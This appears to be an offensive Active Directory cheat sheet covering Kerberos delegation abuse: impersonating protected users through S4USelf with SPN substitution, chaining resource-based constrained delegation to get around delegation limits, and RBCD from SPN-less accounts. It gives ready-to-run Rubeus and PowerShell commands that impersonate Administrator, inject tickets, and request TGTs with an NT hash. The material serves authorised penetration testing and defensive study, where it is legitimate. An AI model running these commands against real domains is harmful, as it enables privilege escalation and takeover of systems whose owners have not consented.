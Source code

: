 #### Impersonate protected user via S4USelf request

It is possible to impersonate a **protected** **user** with the **S4USelf** request if we have a TGT (or the creds) of the target machine (for example from an **Unconstrained Delegation**).

With the target TGT it is possible to realise a S4USelf request for any user and obtain a ST for the service. In case where the needed user is protected against delegation, S4USelf will still work, but the ST is not forwardable (so no S4UProxy possible) and the specified SPN is invalid...however, the SPN is not in the encrypted part of the ticket. So it is possible to modify the SPN and retrieve a valid ST for the target service with a sensitive user (and the ST PAC is well signed by the KDC).

```powershell
.\Rubeus.exe s4u /self /impersonateuser:Administrator /ticket:doIFFz[...SNIP...]TE9DQUw=  /domain:domain.local /altservice:cifs/server.domain.local /ptt
```

#### Bypass Constrained Delegation restrictions with RBCD

* Attacker compromises **ServiceA** and **ServiceB**
* ServiceB is allowed to delegate to `time/ServiceC` (the target) without protocol transition (no S4USelf)
* Attacker configures RBCD from ServiceA to ServiceB and performs a full S4U attack to obtain a forwardable ST for the Administrator to ServiceB
* Attacker reuses this forwardable ST as evidence to realise a S4UProxy attack from ServiceB to `time/ServiceC`
* Since the service is not protected in the obtained ticket, the attacker can change the ST from the previous S4UProxy execution to `cifs/ServiceC`

```powershell
#RBCD from A to B
Set-ADComputer ServiceB -PrincipalsAllowedToDelegateToAccount ServiceA$
.\Rubeus.exe s4u /user:ServiceA$ /aes256:<serviceA_key> /impersonateuser:Administrator /msdsspn:cifs/serviceB.domain.local /domain:domain.local /dc:DC.domain.local

#S4UProxy from B to C with the obtained ST as evidence
.\Rubeus.exe s4u /user:ServiceB$ /aes256:<serviceB_key> /tgs:<obtained_TGS> /msdsspn:time/serviceC.contoso.local /altservice:cifs /domain:domain.local /dc:DC.domain.local /ptt
```

#### U2U RBCD with SPN-less accounts

In case where you have sufficient rights to configure an RBCD on a machine (for example with an unsigned authentication coerce via HTTP) but `ms-ds-machineaccountquota` equals 0, there is no ADCS with the HTTP endpoint and the Shadow Credentials attack is not possible (domain level to 2012 for example), you can realize a RBCD from a SPN-less user account. An interesting example is present [here](https://twitter.com/snovvcrash/status/1595814518558543874). You can follow the example in this [PR](https://github.com/GhostPack/Rubeus/pull/137).

* Configure the machine account to trust the user account you control (NTLM Relay, with the machine account's creds,...)
* Obtain a TGT for the user via pass-the-hash:

```powershell
.\Rubeus.exe asktgt /user:user1 /rc4:<NT_hash> /nowrap
```
